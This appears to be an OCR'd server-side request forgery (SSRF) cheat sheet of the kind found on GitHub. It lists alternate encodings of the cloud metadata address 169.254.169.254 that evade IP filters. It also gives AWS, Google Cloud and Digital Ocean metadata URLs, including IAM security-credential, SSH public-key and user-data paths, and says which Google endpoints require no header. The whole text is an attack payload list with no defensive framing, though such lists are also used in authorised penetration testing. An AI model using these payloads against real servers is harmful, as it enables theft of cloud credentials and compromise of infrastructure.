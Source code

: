 - Alternate IP encoding  

http://425.510.425.510/ Dotted decimal with overflow  
http://2852039166/ Dotless decimal  
http://7147006462/ Dotless decimal with overflow  
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal  
http://0xA9FEA9FE/ Dotless hexadecimal  
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow  
http://0251.0376.0251.0376/ Dotted octal  
http://0251.00376.000251.0000376/ Dotted octal with padding  

- More urls to include  

http://169.254.169.254/latest/user-data  
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]  
http://169.254.169.254/latest/meta-data/  
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]  
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance  
http://169.254.169.254/latest/meta-data/ami-id  
http://169.254.169.254/latest/meta-data/reservation-id  
http://169.254.169.254/latest/meta-data/hostname  
http://169.254.169.254/latest/meta-data/public-keys/  
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key  
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key  
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy  
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access  
http://169.254.169.254/latest/dynamic/instance-identity/document  

## **Google Cloud** ##

#### **Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"** ####
http://169.254.169.254/computeMetadata/v1/  
http://metadata.google.internal/computeMetadata/v1/  
http://metadata/computeMetadata/v1/  
http://metadata.google.internal/computeMetadata/v1/instance/hostname  
http://metadata.google.internal/computeMetadata/v1/instance/id  
http://metadata.google.internal/computeMetadata/v1/project/project-id  

#### **Google allows recursive pulls** ####
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true  

#### **Google** ####
#### **Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)** ####
http://metadata.google.internal/computeMetadata/v1beta1  

## **Digital Ocean** ##


http://169.254.169.254/metadata/v1.json  
http://169.254.169.254/metadata/v1/  
http://169.254.169.254/metadata/v1/id  
http://169.254.169.254/metadata/v1/user-data  
http://169.254.169.254/metadata/v1/hostname  
http://169.254.169.254/metadata/v1/region  
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address  
